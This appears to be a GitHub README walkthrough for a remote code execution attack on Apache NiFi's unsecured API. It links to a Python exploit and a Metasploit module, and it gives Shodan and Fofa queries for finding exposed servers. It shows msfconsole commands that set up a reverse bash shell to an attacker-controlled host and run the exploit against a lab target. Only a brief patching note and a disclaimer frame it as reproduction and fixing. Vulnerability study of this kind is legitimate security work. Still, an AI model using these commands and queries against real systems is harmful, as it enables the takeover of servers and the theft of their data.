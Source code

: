 # Apache NiFi Processor RCE (Oct 3 2020)
Apache NiFi is a software project to automate the flow of data between software systems.  
This module uses the NiFi API to create an ExecuteProcess processor that will execute OS commands. The API must be unsecured (or credentials provided) and the ExecuteProcess processor must be available. An ExecuteProcessor processor is created then is configured with the payload and started. The processor is then stopped and deleted.

API Executing Process: https://nifi.apache.org/docs/nifi-docs/components/org.apache.nifi/nifi-standard-nar/1.12.1/org.apache.nifi.processors.standard.ExecuteProcess/  

Vulnerable architectures: x86, x64  
Vulnerable platforms: Linux, OSX, Unix, Windows  
Vulnerable protocols: http, https  

**Please be aware that this exploit leaves signs of a compromise in a log file (Example: SQL injection data found in HTTP log) and modifies some configuration setting on the target machine, this is not a guide on how to exploit others, this is a guide on how to reproduce the vulnerability and how to fix it.**  

Python Raw Exploit: https://raw.githubusercontent.com/imjdl/Apache-NiFi-Api-RCE/master/exp.py  

MetaSploit Exploit: https://dl.packetstormsecurity.net/2011-exploits/apache_nifi_processor_rce.rb.txt  
MetaSploit Linux Default Payload: **cmd/unix/reverse_bash**  
MetaSploit Windows Default Payload: **cmd/windows/reverse_powershell**  

Shodan Query: `title:"NiFi"`  
Fofa Query: `title=="NiFi"`  

## Using apache_nifi_processor_rce's Exploit
<pre>msf6 > use exploit/multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash</pre>
## Local IP for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LHOST 192.168.60.7
LHOST => 192.168.60.7</pre>
## Local Port for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LPORT 4444
LPORT => 4444</pre>
## Remote IP for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RHOST 192.168.60.57
RHOST => 192.168.60.57</pre>
## Remote Port for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RPORT 8080
RPORT => 8080</pre>
## Checking Current Exploit Options
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > show options</pre>
![msf1](https://user-images.githubusercontent.com/94451745/149518743-e2ad0802-819a-4037-9798-8422f0c236c4.png)
## Running Exploit
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > run</pre>
![msf2](https://user-images.githubusercontent.com/94451745/149520071-97c27099-82df-493b-9ead-a5a96afcc29b.png)
## Vulnerability patching
Upgrade to the latest version, add/change current credentials and setup an IP whitelist in your current firewall settings.
